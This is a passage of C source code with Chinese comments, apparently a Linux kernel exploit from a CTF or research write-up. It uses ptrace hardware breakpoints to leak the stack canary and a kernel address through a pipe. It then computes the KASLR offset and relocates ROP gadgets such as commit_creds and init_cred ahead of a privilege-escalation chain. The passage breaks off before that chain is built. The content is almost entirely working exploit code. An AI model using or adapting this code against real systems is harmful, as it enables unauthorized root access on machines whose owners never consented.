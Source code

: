 ```c
    pid2 = fork();
    if (!pid2)
    {
        trigger();
        exit(0);
    }
    else if (pid2 < 0)
    {
        err_exit("Failed to create trigger");
    }

    // 等待子进程
    waitpid(pid1, NULL, 0);

    // 给victim的buffer下一个硬件断点，如此当victim的uname的copy_to_user访问到buffer时，就会调用exc_debug_kernel
    info("creating hbp for pid1...");
    create_hbp(pid1, buffer);

    // 循环判断是否获得了leak
    info("Loop to check if leak...");
    while (1)
    {
        // victim step0 在循环中会阻塞，这里取消阻塞
        if (ptrace(PTRACE_CONT, pid1, NULL, NULL) < 0)
        {
            err_exit("ptrace");
        }

        // victim step0 执行一遍后，又阻塞，此时先执行父进程下面的判断
        waitpid(pid1, NULL, 0);

        // poll系统调用的准备，poll系统调用这里用来判断是否可以从pipe中读取一个数据
        struct pollfd pfd = {
            .fd = leak_pipe[0],
            .events = POLLIN, // POLLIN表示读入
        };

        int res = poll(&pfd, 1, 0);
        if (res > 0 && (pfd.revents & POLLIN))
        {
            // 进入这里说明已经读到数据了
            success("Parent read oob leak.");
            read(leak_pipe[0], buffer, 0x400);
            break;
        }
    }

    size_t *leak = (size_t *)((size_t)buffer + sizeof(struct utsname));

    canary = leak[0];
    kernel_offset = leak[4] - 0xffffffff810e0b32;
    kernel_base += kernel_offset;

    leak_info("kernel_offset", kernel_offset);
    leak_info("kernel_base", kernel_base);
    leak_info("canary", canary);

    pop_rdi += kernel_offset;
    init_cred += kernel_offset;
    commit_creds += kernel_offset;
    swapgs_restore_regs_and_return_to_usermode += kernel_offset + 0x36;

    /* 下面开始构建rop链，并发送给victim的step1和step2 */
```